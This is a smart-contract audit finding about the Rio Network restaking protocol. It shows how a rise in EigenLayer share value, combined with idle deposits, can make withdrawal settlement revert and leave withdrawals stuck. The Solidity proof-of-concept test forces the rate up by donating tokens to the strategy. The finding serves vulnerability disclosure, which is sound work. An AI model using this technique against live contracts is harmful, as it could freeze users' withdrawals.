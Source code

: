 Obedient Carbon Leopard

high

# Requested withdrawal can be impossible to settle due to EigenLayer shares value appreciate when there are idle funds in deposit pool

## Summary
When users request a withdrawal, the EigenLayer shares equivalent to their LRT's value are recorded. During settlement, these EigenLayer shares must be deducted to finalize the withdrawal epoch. However, in certain scenarios, the requested EigenLayer shares may be impossible to unwind due to funds idling in the deposit pool. 
## Vulnerability Detail
Let's assume that 1 LRT equals 1 EigenLayer-cbETH, which equals 1 cbETH initially.

Alice deposits 5e18 cbETH, and her deposits are allocated to operators after rebalancing. Now, Rio holds 5 EigenLayer-cbETH, which is worth 5 cbETH.

After some time, Bob deposits 100e18 cbETH to Rio and immediately withdraws it. At the time Bob requests this withdrawal, 100 cbETH is worth 100 EigenLayer-cbETH, so the shares owed are 100 EigenLayer-cbETH. At settlement, 100 EigenLayer-cbETH worth of cbETH has to be sent to the withdrawal queue to settle this epoch.

Now, assume that the value of EigenLayer-cbETH increases, meaning that 1 EigenLayer-cbETH is now worth more cbETH. This is an expected behavior because EigenLayer-cbETH is similar to an ERC4626 vault, and we expect its value to increase over time.

Let's say 1 EigenLayer-cbETH is now worth 1.1 cbETH.

Now, 100 cbETH sits idle in the deposit pool, and there are 5 EigenLayer-cbETH in the operators, which means there are a total of 90.9 + 5 = 95.9 EigenLayer-cbETH worth of cbETH in Rio. However, Bob's withdrawal request is for 100 EigenLayer-cbETH.

This would mean that Bob's withdrawal request will not be settled, and the entire withdrawal flow will be stuck because this epoch can't be settled.



**Coded PoC:**
```solidity
 // forge test --match-contract RioLRTDepositPoolTest --match-test test_InsufficientSharesInWithdrawal -vv
    function test_InsufficientSharesInWithdrawal() public {
        uint8 operatorId = addOperatorDelegator(reLST.operatorRegistry, address(reLST.rewardDistributor));
        address operatorDelegator = reLST.operatorRegistry.getOperatorDetails(operatorId).delegator;

        uint256 AMOUNT = 5e18;

        // Allocate to cbETH strategy.
        cbETH.approve(address(reLST.coordinator), type(uint256).max);
        reLST.coordinator.deposit(CBETH_ADDRESS, AMOUNT);
        console.log("SHARES HELD", reLST.assetRegistry.getAssetSharesHeld(CBETH_ADDRESS));

        // Push funds into EigenLayer.
        vm.prank(EOA, EOA);
        reLST.coordinator.rebalance(CBETH_ADDRESS);

        assertEq(cbETH.balanceOf(address(reLST.depositPool)), 0);
        assertEq(reLST.assetRegistry.getAssetSharesHeld(CBETH_ADDRESS), AMOUNT);
        console.log("SHARES HELD", reLST.assetRegistry.getAssetSharesHeld(CBETH_ADDRESS));

        // @review before rebalance, deposit 100 * 1e18
        reLST.coordinator.deposit(CBETH_ADDRESS, 100e18);

        // @review request withdrawal 
        reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, 100e18);
        console.log("SHARES HELD", reLST.assetRegistry.getAssetSharesHeld(CBETH_ADDRESS));

        // @review donate, the idea is to make EigenLayer shares worth more
        uint256 donate = 10_000 * 1e18;
        address tapir = address(69);
        MockERC20(CBETH_ADDRESS).mint(tapir, donate);
        console.log("before rate", reLST.assetRegistry.convertFromSharesToAsset(address(cbETHStrategy), 1e18));

        // @review expecting the rate to be higher after donation
        vm.prank(tapir);
        MockERC20(CBETH_ADDRESS).transfer(address(cbETHStrategy), donate);
        console.log("after rate", reLST.assetRegistry.convertFromSharesToAsset(address(cbETHStrategy), 1e18));

        // @review rebalance, expect revert
        skip(reLST.coordinator.rebalanceDelay());
        vm.startPrank(EOA, EOA);
        vm.expectRevert(bytes4(keccak256("INCORRECT_NUMBER_OF_SHARES_QUEUED()")));
        reLST.coordinator.rebalance(CBETH_ADDRESS);
        vm.stopPrank();
    }
```
## Impact
High since the further and current withdrawals are not possible. 
## Code Snippet
https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/4f01e065c1ed346875cf5b05d2b43e0bcdb4c849/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99-L151

https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/4f01e065c1ed346875cf5b05d2b43e0bcdb4c849/rio-sherlock-audit/contracts/utils/OperatorOperations.sol#L113-L134
## Tool used

Manual Review

## Recommendation
